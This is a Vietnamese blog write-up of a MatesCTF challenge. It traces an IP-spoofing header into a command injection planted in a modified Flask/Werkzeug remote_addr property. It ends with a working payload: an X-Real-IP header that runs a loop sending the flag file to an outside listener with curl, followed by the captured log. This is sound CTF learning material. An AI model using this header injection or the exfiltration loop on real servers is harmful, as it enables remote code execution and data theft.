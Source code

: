 ```yaml
---
title: "Matesctf final 2 - IP Spoofing to RCE in flask"
date: 2018-09-08T09:46:55+07:00
draft: false
comments: true
author: "Kev"
tags: ["ctf", "flask"]
---
```

{{< figure src="/images/posts/ex50.PNG" >}}

## EXPLOIT - [source](/resources/matesctf/ex50.tar)
<hr>
Sau khoảng thời gian dài nghiên cứu và nhờ sự gợi ý hết sức nhiệt tình từ tác giả tôi đã có thể exploit được lỗi được tác giả cho là khó phát hiện nhất. Chuẩn luôn, là rất khó phát hiện vì code lỗi ở tận trong lib của flask.

Đầu tiên, khi truy cập vào trang đăng nhập tác giả có gợi ý cho mọi người biết là app có handle real ip của client. (Hình trên)
Thế nên mình tìm kiếm trong source để tìm xem có vấn đề bảo mật gì có thể khai thác được không.

{{<highlight python>}}
def index():
    try:
        data = Novel.find_one({"page":1})
        lines = data['content'].split("\n")
    except Exception, e:
        return render_template('index.html', page=0, message=[], _id="")
        print e
    if session.has_key('usn'):
        return render_template('index.html',_id=data['_id'],message=lines,page=1)
    return render_template('login.html',ip=request.remote_addr)

{{</highlight>}}

Chính là chỗ này, tác giả đã lấy `remote_addr` để hiển thị ra trang chủ. Thêm nữa, `remote_addr` còn được insert vào database lúc tạo user, ngoài ra thì không được dùng để làm gì nữa.
Có 2 vector tấn công mà mình có thể nghĩ đến đó là: nosql injection và xss

Tuy nghiên, giả sử bị lỗi nosql injection thì tội gì phải inject vào trường ip mà không inject vào trường username, hay name. Mặc khác, query ở đây là câu lệnh insert nên có vẻ khó để khai thác. XSS lại càng không, vì mình không tìm thấy flag nào trong cookie của bot, nếu có session của bot thì cũng không lấy được flag. Thế là 2 vector này xem như bỏ.

Mình có test thêm một số cách nữa, là thay đổi giá trị của trường `X-Forwarded-For` để fake ip. và kết quả là:

{{<highlight bash>}}
# Truy cập từ localhost. Kết quả nhận được giá trị 127.0.0.1
✔ curl localhost:8080  
<input type="submit" class="btn waves-effect waves-light" value="127.0.0.1"/>

# Thay đổi request header bằng giá trị ngẫu nghiên. Kết quả bị lỗi
✔ curl localhost:8080 -H "X-Forwarded-For: 1.2.3.4"
{
  "error": {
    "code": 500, 
    "message": "fake ip"
  }
}

# Thay đổi giá trị request header là ip thật. Kết quả trả về đúng với những gì gửi lên
✔ curl localhost:8080 -H "X-Forwarded-For: 103.92.28.200" 
<input type="submit" class="btn waves-effect waves-light" value="103.92.28.200"/>

# Truy cập từ internet. Kết quả nhận được là ip thật của client
✔ curl 103.92.28.200
<input type="submit" class="btn waves-effect waves-light" value="58.187.170.100"/>

# Thay đổi request header bằng giá trị 127.0.0.1. Kết quả không thay đổi
✔ curl 103.92.28.200 -H "X-Forwared-For: 127.0.0.1"
<input type="submit" class="btn waves-effect waves-light" value="58.187.170.100"/>
{{</highlight>}}

Tại sao lại có sự khác biệt giữa internal và external? {{< emoji oh >}} Ở trung gian giữa 2 môi trường thì chỉ có reverse proxy tác động vào thôi. Kiểm tra cấu hình nginx tại `/etc/nginx/sites-enabled/default`

```
server {
	listen 80 default_server;
	listen [::]:80 default_server;
	server_name _;

	location / {
		proxy_set_header X-Forwarded-For $remote_addr;
		proxy_pass http://127.0.0.1:8080/;
	}
}
```

Thì ra nginx đã set lại giá trị của X-Forwarded-For. Mình tìm kiếm thêm một số thông tin về cách khai thác theo hướng này. Có vẻ cách cấu hình của nginx và flask đều bị sai và có thể khai thác được lỗi này. Nhưng mình chưa hiểu vì sao mà không thực hiện ip spoofing được khi qua nginx. Nhưng đều đó không quan trọng, vì nếu attack được vector này thì làm sao get flag?

- [Flask apps on Heroku susceptible to IP spoofing](http://esd.io/blog/flask-apps-heroku-real-ip-spoofing.html)
- [Nginx is more explicit](https://stackoverflow.com/questions/12770950/flask-request-remote-addr-is-wrong-on-webfaction-and-not-showing-real-user-ip)

Mình phải xin hint của tác giả, được gợi ý là tìm vị trí implement `request.remote_addr` trong lib. Thực hiện trace từ từ như bên dưới:

{{<highlight bash>}}
# Để tìm được vị trí của thư viện flask ta có thể dùng lệnh đơn giản sau
✔ python -c "import flask; print flask.__file__"
/usr/local/lib/python2.7/dist-packages/flask/__init__.pyc

# Đối tượng request được gọi từ file globals.py
✔ cat /usr/local/lib/python2.7/dist-packages/flask/__init__.py | grep request
from .globals import current_app, g, request

# Đối tượng request được khởi tạo từ method LocalProxy
✔ cat /usr/local/lib/python2.7/dist-packages/flask/globals.py | grep request 
request = LocalProxy(partial(_lookup_req_object, 'request'))

# Tìm vị trí của method LocalProxy, kết quả là tại werkzeug.local
✔ cat /usr/local/lib/python2.7/dist-packages/flask/globals.py | grep LocalProxy
from werkzeug.local import LocalStack, LocalProxy

# Tìm vị trí của thư viện werkzeug
✔ python -c "import werkzeug; print werkzeug.__file__"
/usr/local/lib/python2.7/dist-packages/werkzeug/__init__.pyc 

# Đối tượng ta đang tìm kiếm được gán vào _LocalProxy__local và __wrapped__
✔ cat /usr/local/lib/python2.7/dist-packages/werkzeug/local.py
class LocalProxy(object):
	def __init__(self, local, name=None):
	    object.__setattr__(self, '_LocalProxy__local', local)
	    object.__setattr__(self, '__name__', name)
	    if callable(local) and not hasattr(local, '__release_local__'):
	        object.__setattr__(self, '__wrapped__', local)
{{</highlight>}}

Cũng hơi lòng vòng. Thực ra request được kết thừa từ class `BaseRequest` trong `wrappers.py`. Và remote_addr cũng được implement tại đây
{{<highlight python3>}}
@property
def remote_addr(self):
    if self.headers.has_key('X-Real-IP'):
        ip = self.headers.get('X-Real-IP')
    elif self.headers.has_key('X-Forwarded-For'):
        ip = self.headers.get('X-Forwarded-For')
    else:
        ip = self.environ.get('REMOTE_ADDR')
    cmd = 'netstat -tn | grep ' + ip 
    import subprocess
    ps = subprocess.Popen(cmd,shell=True,stdout=subprocess.PIPE,stderr=subprocess.STDOUT)
    output = ps.communicate()[0]
    if len(output) > 0: 
        return ip
    raise Exception("fake ip") 
{{</highlight>}}

Đây rồi, command injection. `ip` có thể được custom từ trường `X-Real-IP` hoặc `X-Forwarded-For` và gọi `Popen`. Vì kết quả chỉ được hiển thị ra `ip` không phải `output` - dạng blind - nên cần phải bắt dữ liệu từ server khác. Mình viết script dùng curl gửi dữ liệu kèm theo flag, mỗi 1 phút sẽ tự động gửi flag qua 1 lần.

{{<highlight bash>}}
# Script đọc flag mỗi 1 phút
✔ curl 103.92.28.200 -H "X-Real-IP: 127.0.0.1; while true; do curl 103.92.28.200:8000/?flag=`cat /home/ctf/ex50/flag`; sleep 60; done;"

# Bắt gói tin HTTP 
✔ php -S 103.92.28.200:8000
[Mon Sep 10 11:46:10 2018] ::1:44454 [404]: /?flag=matesctf23w4324234234234234 - No such file or directory
[Mon Sep 10 11:47:10 2018] ::1:44456 [404]: /?flag=matesctf23w4324234234234234 - No such file or directory
[Mon Sep 10 11:48:10 2018] ::1:44458 [404]: /?flag=matesctf23w4324234234234234 - No such file or directory
[Mon Sep 10 11:49:10 2018] ::1:44460 [404]: /?flag=matesctf23w4324234234234234 - No such file or directory
[Mon Sep 10 11:50:10 2018] ::1:44462 [404]: /?flag=matesctf23w4324234234234234 - No such file or directory
{{</highlight>}}


## SOLUTIONS
<hr>
To be continue ...
